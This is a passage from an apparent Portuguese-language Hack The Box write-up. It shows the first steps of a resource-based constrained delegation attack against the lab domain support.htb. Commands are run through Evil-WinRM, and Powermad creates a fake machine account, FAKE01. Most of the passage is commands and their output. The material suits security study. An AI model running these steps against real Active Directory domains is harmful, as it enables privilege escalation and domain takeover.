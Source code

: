 ```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-ADObject -Identity support -Properties ms-ds-machineaccountquota

ms-ds-machineaccountquota
-------------------------
                       10
```

​	Feito isso, podemos verificar se o valor da propriedade **msds-allowedtoactonbehalfofotheridentity** ta vazio, o que significa que estamos prontos para realizar o ataque RBCD.. A propriedade **msds-allowedtoactonbehalfofotheridentity** está relacionada ao Active Directory e ao gerenciamento de identidades. No  contexto do Active Directory, essa propriedade faz parte do conjunto de  atributos estendidos que podem ser associados a objetos de segurança.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

name msds-allowedtoactonbehalfofotheridentity
---- ----------------------------------------
DC
```

​	Com as informacões checadas, podemos usar o **Powermad** para criar um computador falso chamado **FAKE01** e adicioná-lo ao domínio.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
Verbose: [+] Domain Controller = dc.support.htb
Verbose: [+] Domain = support.htb
Verbose: [+] SAMAccountName = FAKE01$
Verbose: [+] Distinguished Name = CN=FAKE01,CN=Computers,DC=support,DC=htb
[+] Machine account FAKE01 added
```

​	Com o computador criado, podemos usar o **Powerview** para verificar se o computador foi criado e pegar o nome do usuário na propriedade **samaccountname**.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainComputer FAKE01


pwdlastset             : 1/10/2024 7:55:49 AM
logoncount             : 0
badpasswordtime        : 12/31/1600 4:00:00 PM
distinguishedname      : CN=FAKE01,CN=Computers,DC=support,DC=htb
objectclass            : {top, person, organizationalPerson, user...}
name                   : FAKE01
objectsid              : S-1-5-21-1677581083-3380853377-188903654-5601
samaccountname         : FAKE01$
localpolicyflags       : 0
codepage               : 0
samaccounttype         : MACHINE_ACCOUNT
accountexpires         : NEVER
countrycode            : 0
whenchanged            : 1/10/2024 3:55:49 PM
instancetype           : 4
usncreated             : 86098
objectguid             : 10716e2e-4357-45e6-9579-17eda39b7d24
lastlogon              : 12/31/1600 4:00:00 PM
lastlogoff             : 12/31/1600 4:00:00 PM
objectcategory         : CN=Computer,CN=Schema,CN=Configuration,DC=support,DC=htb
dscorepropagationdata  : 1/1/1601 12:00:00 AM
serviceprincipalname   : {RestrictedKrbHost/FAKE01, HOST/FAKE01, RestrictedKrbHost/FAKE01.support.htb, HOST/FAKE01.support.htb}
ms-ds-creatorsid       : {1, 5, 0, 0...}
```